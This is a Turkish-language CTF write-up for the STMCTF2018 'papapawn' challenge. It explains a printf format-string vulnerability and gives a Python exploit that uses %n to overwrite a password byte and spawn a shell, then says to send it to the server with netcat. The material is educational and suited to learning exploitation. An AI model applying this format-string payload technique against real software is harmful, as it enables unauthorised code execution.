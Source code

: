 ## STMCTF2018 papapawn sorusu çözümü

Birinci soruda olduğu gibi yine bize dosya verilmiş ve aynı şekilde bu dosyayı analiz ederek sunucuyu pwn etmeye çalışacağız. Hızlıca göz atalım dosyaya:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Papapawn/screenshots/1.png)

Çalıştırıp biraz bakalım:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Papapawn/screenshots/2.png)

Resimden çıkarılan sonuç:

* Overflow yok, çünkü bizim girdiğimiz inputu kırpıyor.

```bash
objdump -S papapawn -M intel
```

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Papapawn/screenshots/3.png)

Biraz dikkatlice main’e bakarsak zaten 0x40 yani 64 byte’lık bir yer ile aldığını anlıyoruz. 

Demek ki overflow yok o zaman biraz daha debug edelim:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Papapawn/screenshots/4.png)

Çok ilginç bişey oldu. Printf var ama ilk arg olarak girdiğimiz A değerlerini alıyor. Halbuki şöyle bişey olmalıydı:

```c
printf("seciminiz : %s\n", "AAAA...");
```

Konuya hakim arkadaşlar hemen anlamıştır. Burda bir string format var. Bu cebimizde kalsın biz debug etmeye devam edelim. 

Yukarıdaki fotoda anlaşıldığı gibi yolumuza devam ettiğimizde checkPassword fonksiyonuna atlıyoruz. Orda ise çok ilginç bişey var:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Papapawn/screenshots/5.png)

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Papapawn/screenshots/6.png)

Burda 0x804b06c adresinden değer alıp EAX’a atıyor. Ondan hemen sonraki işleme geldik EAX’a baktığımızda değer 0 ve onu 0x2a ile karşılaştırıyor. Bu değer char olarak (*) yıldız işaretine denk geliyor. Eğer ki eşik değilse(jne -> jump not equal) +21’e atla o adres zaten fotoda gözüküyor ilk önce nop sonra leave, fakat eğer ki eşit ise paraYatir fonksiyonuna atlıyor. Oraya bir göz atalım:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Papapawn/screenshots/7.png)

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Papapawn/screenshots/8.png)

Anlaşıldığı üzere biz parola adresine(0x804b06c) yıldız işareti yazdırırsak /bin/dash calıştıracak ve işi bitirmiş olacağız. 

Bilmeyen arkadaşlar için string format hakkında birkaç şey söyleyelim. String bastırırken %s ve benzeri escape kullanmak gerekir, aksi halde yazdığınız risk altındadır. Eğer ki saldırgan input yerine %x, %p gibi karakterler girerse memoryden okuyabilir. Örnek:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Papapawn/screenshots/9.png)

Gördüğünüz gibi %x basmak yerine memoryden hex değerleri basıyor. String format atağı adreslere byte yazmak ile olur. %n spesifier var ve bu specifier verilen adrese byte yazdırır. Uzun uzun anlatmak yerine kısaca bir foto ve fotonun linkini veriyim:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Papapawn/screenshots/10.png)

https://stackoverflow.com/questions/3401156/what-is-the-use-of-the-n-format-specifier-in-c

Val değeri ikinci printf’de 5 olmuş bunun nedeni %n’den önce 5 byte var(blah kelimesi 4 + bir adet boşluk). Bizim yapmamız gereken şey %n ile o adrese yazdırmak ama önce o adresi başa direkt erişim sağlamalıyız ve bunun için ise %<pattern>$n vererek memorydeki ilk adrese değilde 15. Adrese yazdırabiliriz. Önce pattern bulalım:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Papapawn/screenshots/11.png)

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Papapawn/screenshots/12.png)

Noktalar arasını sayarsak girdiğimiz AAAA harflerinin karşılığı olan 0x41414141 değerleri 15. Yerde saklanıyor yani %15$n yaparsak 0x41414141 adresine yazdırmaya çalışacağız. Debug edelim:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Papapawn/screenshots/13.png)

Bir hata aldık hemen bakalım:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Papapawn/screenshots/14.png)

ESI değerini EAX’ın içindeki adresin içine yazdırmak istiyor ama bu adres valid değil bu yüzden fault aldık. 0x41414141 adresi yerine parola adresi olsa ve ESI değerini ise yıldız işareti yani 0x2a yaparsak tamamdır. 0x2a decimal olarak 42 eder uzun olarak adres(4byte) + 38 tane a girebiliriz ama kolay yolu %u kullanmak. 

Exploitimiz:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Papapawn/screenshots/15.png)

```python
#!/usr/bin/python

address = "\x6c\xb0\x04\x08" #804b06c

number = "%38u%15$n" # 4 byte address + 38u

print "1"
print address + number
```

NOT: little-endian
NOT: ilk girdi için 1\n

Çalıştıralım:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Papapawn/screenshots/16.png)

./papapawn yerine nc -vv x.x.x.x 7777 yazıp çalıştırırsanız shell alırsınız flag zaten o dizindeydi
